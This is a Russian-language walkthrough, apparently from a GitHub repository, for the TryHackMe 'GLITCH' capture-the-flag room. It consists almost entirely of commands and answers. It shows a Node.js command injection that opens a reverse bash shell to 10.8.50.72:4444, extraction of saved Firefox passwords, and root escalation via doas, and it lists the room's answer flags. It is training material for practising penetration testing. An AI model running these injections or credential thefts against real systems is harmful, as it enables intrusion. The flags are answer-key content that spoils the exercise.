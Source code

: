 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [GLITCH](https://tryhackme.com/r/room/glitch) 

Всего 1 заданиe:
## Задание 1
Внимание! Коробка содержит  мигающие изображения и деликатные слова.

Это простая задача, в которой вам нужно эксплуатировать уязвимое веб-приложение и получить root-доступ к машине. Она ориентирована на новичков, некоторые базовые знания JavaScript будут полезны, но не обязательны. Отзывы всегда приветствуются.

*Примечание: для фактического запуска веб-сервера может потребоваться несколько минут.

### Ответьте на вопросы ниже
Разверните машину.
```commandline
Ответ не нужен
```
Какой у вас токен доступа?
```commandline
nmap -sC -sV <IP>
curl -s http://<IP>/api/access
echo "dGhpc19pc19ub3RfcmVhbA==" | base64 -d
```
```commandline
this_is_not_real
```
Каково содержимое файла user.txt?
```commandline
gobuster dir -u http://<IP>/api/ -x php,txt,bak,old,tar,zip -w /usr/share/wordlists/dirb/common.txt 
curl http://<IP>/api/items
curl -XPOST http://<IP>/api/items
wfuzz -X POST -w /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hh=45 http://<IP>/api/items?FUZZ=oops
curl -X POST http://<IP>/api/items?cmd=id
curl -X POST "http://<IP>/api/items?cmd=process.cwd()"
curl -X POST "http://<IP>/api/items?cmd=require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.8.50.72/4444+0>%261"')
nc -nlvp 4444
cat /home/user/user.txt
```
```commandline
THM{i_don't_know_why}
```
Каково содержимое файла root.txt?
```commandline
# https://github.com/unode/firefox_decrypt
python3 firefox_decrypt.py /data/GLITCH/files/.firefox/
Username: 'v0id'
Password: 'love_the_void'
sudo -l
find / -type f -user root -perm -u=s 2>/dev/null
doas -u root /bin/bash
cat /root/root.txt
```
```commandline
THM{diamonds_break_our_aching_minds}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)